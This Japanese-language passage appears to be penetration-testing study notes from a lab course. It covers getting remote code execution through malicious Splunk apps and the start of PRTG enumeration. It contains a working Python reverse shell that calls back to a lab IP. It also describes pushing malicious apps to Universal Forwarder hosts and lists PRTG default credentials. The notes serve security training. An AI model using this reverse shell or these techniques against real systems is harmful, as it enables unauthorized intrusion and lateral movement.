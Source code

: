 #### Linux
- Linuxホストの場合は、以下のような rev.py スクリプトを使用する
- このPythonスクリプトを bin に配置し、アプリをパッケージ＆アップロードすれば、Linuxでも同様にリバースシェルが取得可能
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

#### SplunkがDeployment Serverの場合
- もし侵害したSplunkサーバーがDeployment Server（配布サーバー）だった場合、その配下のUniversal Forwarder（UF）をインストールしている他のホストにもRCEを仕掛けることが可能になる
- この場合、作成した悪意あるアプリケーションを`$SPLUNK_HOME/etc/deployment-apps/`に配置する必要がある
- 特にWindows環境が多いネットワークでは、Universal ForwarderにはPythonが無いため、PowerShellベースのアプリケーションを用意する必要がある


# PRTG
- エージェントレスのネットワーク監視ソフトウェア
- 帯域幅の使用状況や稼働時間の監視、ルーター、スイッチ、サーバーなどのホストからの統計情報の収集に使用される
- 自動検出モードを使用してネットワークの領域をスキャンし、デバイスリストを作成する
- このリストが作成されると、ICMP、SNMP、WMI、NetFlowなどのプロトコルを使用して検出されたデバイスからさらに情報を収集できる
- デバイスはREST APIを介してツールと通信することも可能
- 同社によれば、世界中で30万人のユーザーがPRTGを使用している
- このツールを開発したPaessler社は、1997年から監視ソリューションを提供している
- PRTGを使用してネットワークを監視している組織には、ナポリ国際空港、バージニア工科大学、セブンイレブンなどがある
- これまでにPRTGには26件の脆弱性が報告されており、そのうち4件には容易に見つけられる公開されたエクスプロイトPoCがある
- これらは、2件のクロスサイトスクリプティング（XSS）、1件のサービス拒否（DoS）、および1件の認証済みコマンドインジェクション脆弱性である
- 内部ペネトレーションテスト中にPRTGに遭遇することはよくある

## 発見/フットプリンティング/列挙
- PRTGは、Nmapで簡単に見つかる
- 通常、ポート80、443、8080などの一般的なウェブポートで見つかる
	- 管理者としてログインしている場合、[Setup]セクションでウェブインターフェースのポートを変更することも可能
```shell-session
snowyowl644@htb[/htb]$ sudo nmap -sV -p- --open -T4 10.129.201.50

8080/tcp  open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
```
- EyeWitnessスキャンにも表示される

**PRTGのデフォルトの資格情報**
- prtgadmin:prtgadmin
	- これらは通常、ログインページに事前入力されており、変更されていないことがよくある
	- Nessusなどの脆弱性スキャナーにも、PRTGの存在を検出するプラグイン

### 攻撃
